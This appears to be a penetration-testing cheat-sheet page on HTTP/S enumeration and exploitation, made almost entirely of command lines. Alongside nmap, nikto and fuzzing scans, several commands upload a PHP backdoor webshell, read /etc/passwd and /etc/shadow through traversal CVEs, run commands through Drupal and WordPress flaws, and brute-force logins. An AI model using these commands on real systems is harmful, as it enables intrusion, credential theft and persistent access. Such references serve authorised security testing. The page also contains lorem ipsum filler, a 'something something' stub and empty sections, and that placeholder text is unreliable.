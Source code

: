 ```yaml
---
description: >-
  Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor
  incididunt ut labore et dolore magna aliqua.
---
```


# HTTP/S

**HTTP Service Scan and Enumeration**

> Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum

{% hint style="info" %}
Applications for locating web services
{% endhint %}

### Nmap

```text
﻿nmap -sSV -P0 -p"http*" --script http-enum <HOST(S)> -oG <HOST(S)>-http-scan.txt
```

### **Unicornscan**

```text
unicornscan something something
```

### **Nikto**

```text
﻿nikto -host <HOST(S)>
```

```text
nikto -host <HOST(S)> -port 8000
```

### **Snallygaster**

```text
snallygaster http://10.1.1.1
```

### **WFuzz**

```text
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.1.1.1/FUZZ
```

### **DirBuster**

```text
java -jar DirBuster-1.0-RC1.jar -H -u https://10.1.1.1
```

```text
java -jar DirBuster-1.0-RC1.jar -u https://10.1.1.1
```

### **Dirb**

```text
dirb http://10.1.1.1 /usr/share/wordlists/dirb/common.txt
```

### Additional Nmap Scripts

**HTTP Recon \(Not as good as Nikto\)** `nmap --script http-enum <target>`  
**HTTP Title** `nmap --script http-title -sV -p http 192.168.1.0/24`  
**HTTP Site Map Generator** `nmap --script http-sitemap-generator -p 80 <target>`  
**HTTP Methods** `nmap --script http-methods -p 80 <target>`  
**Known Bad SSL Keys** `nmap --script ssl-known-key -p 443 <host>`  
**HTTP Form Brute Auth** `nmap --script http-form-brute -p 80 <host>`  
**HTTP Basic brute** `nmap --script http-brute -p 80 <host>`  
**Proxy Server Broadcast Discovery** `nmap --script broadcast-wpad-discover`  
**HTTP Proxy Brute** `nmap --script http-proxy-brute -p 8080 <host>`  
**Socks Brute** `nmap --script socks-brute -p 1080 <host>`  
**SSL ROCA Weak keys** `nmap -p 22,443 --script rsa-vuln-roca <target>`

**HTTP File Upload Check**

```text
nmap -p80 --script http-fileupload-exploiter.nse uploadspaths={'/webdav', ‘xampp’} <target>
```

```text
nmap -p 80  --script http-put --script-args http-put.url='/usr/share/webshells/php/simple-backdoor.php',http-put.file='/webdav/rootme.php <target>
```

**Heartbleed Testing**

```text
nmap -sV -p 443 --script=ssl-heartbleed 192.168.1.0/24
```

**Check for GIT Files**

```text
nmap -sV -sC <target>
```

**IIS WEB DAV**

```text
nmap --script http-iis-webdav-vuln -p80,8080 <target>
```

**Directory Traversal**

```text
nmap --script http-passwd --script-args http-passwd.root=/test/ <target>
```

**ShellShock Check**

```text
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
```

**Cold fusion Admin Cookie**

```text
nmap -sV --script http-adobe-coldfusion-apsa1301 <target>
```

**Cold fusion Admin Cookie exmaple directory**

```text
 nmap -p80 --script http-adobe-coldfusion-apsa1301 --script-args basepath=/cf/adminapi/ <target>
```

**Cold Fusion Dir Traversal**

```text
nmap --script http-vuln-cve2010-2861 <host>
```

**ASP .NET Debug check**

```text
 nmap --script http-aspnet-debug --script-args http-aspnet-debug.path=/path <target>
```

**JSON Rest Endpoint Finder**

```text
nmap -p 80 --script http-jsonp-detection <target>
```

**PHPMyAdmin Dir Traversal**

```text
nmap -p80 --script http-phpmyadmin-dir-traversal --script-args="dir='/pma/',file='../../../../../../../../etc/passwd',outfile='passwd.txt'" <target>
```

```text
nmap -p80 --script http-phpmyadmin-dir-traversal <host/ip>
```

**Webmin Check**

```text
nmap -sV --script http-vuln-cve2006-3392 <target>
```

```text
nmap -p80 --script http-vuln-cve2006-3392 --script-args http-vuln-cve2006-3392.file=/etc/shadow <target>
```

**PHP CGI Check**

```text
nmap -sV --script http-vuln-cve2012-1823 <target>
```

```text
nmap -p80 --script http-vuln-cve2012-1823 --script-args http-vuln-cve2012-1823.uri=/test.php <target>
```

**Drupal 'Drupageddon' &lt; 7.32**

```text
nmap --script http-vuln-cve2014-3704 --script-args http-vuln-cve2014-3704.cmd="uname -a",http-vuln-cve2014-3704.uri="/drupal" <target>
```

```text
nmap --script http-vuln-cve2014-3704 --script-args http-vuln-cve2014-3704.uri="/drupal",http-vuln-cve2014-3704.cleanup=false <target>
```

**Wordpress Download Manager**

```text
nmap --script http-vuln-cve2014-8877 --script-args http-vuln-cve2014-8877.cmd="whoami",http-vuln-cve2014-8877.uri="/wordpress" <target>
```

```text
nmap --script http-vuln-cve2014-8877 <target>
```

**WordPress REST API 4.7.0 and 4.7.1**

```text
nmap --script http-vuln-cve2017-1001000 --script-args http-vuln-cve2017-1001000="uri" <target>
```

```text
nmap --script http-vuln-cve2017-1001000 <target>
```

**Wordpress Usernames Enumeration**

```text
nmap -p80 --script http-wordpress-users <target>
```

```text
nmap -sV --script http-wordpress-users --script-args limit=50 <target>
```

**WordPress Brute**

```text
nmap -sV --script http-wordpress-brute <target>
```

```text
nmap -sV --script http-wordpress-brute--script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com,http-wordpress-brute.threads=3,brute.firstonly=true' <target>
```

**Intel Active Mangement**

```text
 nmap -p 16992 --script http-vuln-cve2017-5689 <target>
```

**Joomla! 3.7.x SQLI**

```text
nmap --script http-vuln-cve2017-8917 -p 80 <target>
```

```text
nmap --script http-vuln-cve2017-8917 --script-args http-vuln-cve2017-8917.uri=joomla/ -p 80<target>
```

## Exploiting HTTP Services and Web Applications

{% tabs %}
{% tab title="Apache" %}
**Apache Local Directories:**  
[https://wiki.apache.org/httpd/DistrosDefaultLayout](https://wiki.apache.org/httpd/DistrosDefaultLayout)  
  
**List Apache Modules**  
Apache -M  
  
**Apache Reverse Proxy Check**  
 nmap --script http-vuln-cve2011-3368 &lt;targets&gt;  
**Apache Struts RCE**  
 nmap -p &lt;port&gt; --script http-vuln-cve2017-5638 &lt;target&gt;  
**Apache JServ brute**  
 nmap -p 8009 --script ajp-brute &lt;target&gt;  
**Enumerate Apache Users**  
apache-users -h 192.1.1.1 -l /usr/share/wordlists/metasploit/unix\_users.txt -p 80 -s 0 -e 403 -t 10
{% endtab %}

{% tab title="IIS" %}
**ASP .NET Debug check**  
 nmap --script http-aspnet-debug --script-args http-aspnet-debug.path=/path &lt;target&gt;  
**IIS WEB DAV**  
 nmap --script http-iis-webdav-vuln -p80,8080 &lt;target&gt;
{% endtab %}
{% endtabs %}

### LFISuite

### fimap

### SQLMap

{% hint style="info" %}
Additional information for SQLMap can be found [here.](https://bloodshot.gitbook.io/manual/tools/burp-suite)
{% endhint %}



